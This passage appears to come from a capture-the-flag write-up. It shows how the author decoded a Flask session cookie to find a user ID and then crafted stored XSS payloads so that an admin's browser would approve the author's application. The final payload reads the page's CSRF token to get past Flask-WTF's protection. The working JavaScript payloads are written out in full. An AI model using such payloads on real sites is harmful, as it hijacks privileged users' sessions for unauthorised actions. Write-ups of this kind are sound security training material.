 So lets try to craft a script that will approve the application, but first we need to figure out our user id:
I did that by using this tools [Flask Session Cookie Decoder](https://www.kirsle.net/wizards/flask-session.cgi)

I got:
```json
{
  ...
  "user_id": 2,
  ...
}
```
Crafting the script:

```html
<script>fetch('/approve',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'user_id=2'});</script>
```
But it did not work for som reason. The admin viewed the application but did not approve it.
![img_9.png](img/img_9.png)
![img_10.png](img/img_10.png)

Looking at the form we can see that it uses the flask package `Flask-WFT` which [uses CSRF tokens](https://flask-wtf.readthedocs.io/en/0.15.x/csrf/).

Then we needed to create a payload that used the CSRF token.

```html
<script>fetch('/approve',{method:'POST',headers:{'Content-Type':'application/x-www-form-urlencoded'},body:'csrf_token='+document.getElementsByName('csrf_token')[0].value+'&user_id=2'})</script>
```
![img_11.png](img/img_11.png)
